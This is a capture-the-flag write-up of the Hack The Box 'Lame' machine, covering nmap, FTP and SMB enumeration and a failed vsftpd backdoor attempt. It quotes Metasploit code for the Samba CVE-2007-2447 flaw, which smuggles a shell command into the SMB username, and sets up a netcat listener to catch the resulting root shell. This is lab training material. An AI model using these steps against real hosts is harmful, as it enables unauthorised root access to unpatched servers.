

**Start 22:16 27/07** 

---

### Nmap recon
First of all we start with an `nmap` scan `nmap -sC -sV -Pn 10.10.10.3


Here we see a few open `ports` namely `21 / 22 / 139 / 445`.

### 21/TCP - FTP 

==Anonymous login==
Since `21 - ftp` allows `Anonymous login` we should try that first. After trying `ftp 10.10.10.3` I found the directory to be empty.

==Exploits==
After looking up `vsftpd 2.3.4` using `searchsploit` we found some backdoor command execution exploits.



### 445/TCP - Samba

==smbmap==
Using `smbmap -H 10.10.10.3` we can enumerate the SMB server.


Since anonymous login is allowed we can connect to the `SMB` server using the following command: `smbclient -N //10.10.10.3/tmp` 
Afterwards we run `ls` to list all the files in the current directory. We get the following:


None of these files seem interesting to us.

==Searchsploit==
After looking up the version on `searchsploit` the following exploits pop up:


From all these this one seems the most prevalent for us:

```bash
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)
```

This exploit is also known as `CVE 2007-2447` as found on `ExploitDB`.  Perhaps this will come of use to us later on.

First let's try out the exploit we found for `port 21`.

### VSFTPD Exploit

To use this exploit we'll use `msfconsole` and use the path previously found using `searchsploit`.
Using `search vsftpd` we found the path to the exploit which we can then `use`.


As always we type in `options` to find out what required settings we have to set up before firing up the exploit.


We notice that we need to specify `rhosts` which would be `10.10.10.3` in this case, thus we just specify it using `set rhosts 10.10.10.3`.

Since the payload has already been configured by default we can just `run` the exploit after configuring the `rhosts`.

Unfortunately enough, the exploit completes but no session get's created. 


This means that we'll have to try the `Samba` exploit we found earlier.

### Samba Exploit

For this we will have to utilize the [CVE 2007-2447](https://www.exploit-db.com/exploits/16320) as found previously in our `searchsploit`.
Reading through this `CVE` we find the following part which is interesting for us:

```rb
def exploit

		connect

		# lol?
		username = "/=`nohup " + payload.encoded + "`"
		begin
			simple.client.negotiate(false)
			simple.client.session_setup_ntlmv1(username, rand_text(16),
			datastore['SMBDomain'], false)
		rescue ::Timeout::Error, XCEPT::LoginError
			# nothing, it either worked or it didn't ;)
		end

		handler
	end
```

In this part of the `CVE` we see that we need to use the defined `username` credentials to log in.
In order for this to work we need to start a `nc -lvnp 443` listener. 
When prompted for a password I just pressed `enter` and the connection succeeded.


We got a `root` shell this way, thus no need to escalate privileges :)

### Flags

As always we use `find` to quickly find the flags


---

**Finished 23:32 27/07**


[^Links]: [[Hack The Box]]
